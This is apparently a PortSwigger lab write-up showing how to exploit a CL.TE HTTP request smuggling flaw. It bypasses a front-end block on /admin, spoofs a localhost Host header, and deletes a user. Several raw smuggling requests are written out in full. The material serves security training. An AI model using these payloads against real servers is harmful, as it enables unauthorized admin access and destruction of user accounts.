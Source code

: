 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te), you'll learn: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145613.png)

**According to the lab's background, the admin panel is at `/admin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145651.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145745.png)

However, when we reach there, the application blocks us from accessing to it.

How can we bypass that?

Now, we can send that request to Burp Suite's Repeater, and **test HTTP request smuggling**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145823.png)

**First, we need to change the request method to POST:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145854.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145859.png)

Then, we can test is it vulnerable to **CL.TE** (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or **TE.CL** (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

**To test CL.TE, we can:**

- Send an attack POST request to `/`:

```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Foo: x
```

**This request will smuggle a GET request to `/admin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201150813.png)

- Then, send a normal GET request to `/`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201150852.png)

We successfully bypass the access block!

However, it said: "Admin interface only available to local users".

**Luckly, we can still bypass this by supplying another HTTP header called `Host`:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152216.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152221.png)

Hmm... "Duplicate header names are not allowed".

**To bypass that, we can smuggle an empty GET parameter:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 15

bypasspls=
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152444.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152503.png)

Nice!! We successfully fully bypassed the access block!

**Let's delete user `carlos` by smuggling a request:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin/delete HTTP/1.1
Host: localhost
Content-Length: 15

username=carlos&bypasspls=
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152702.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152715.png)

We successfully deleted user `carlos`!

# What we've learned:

1. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
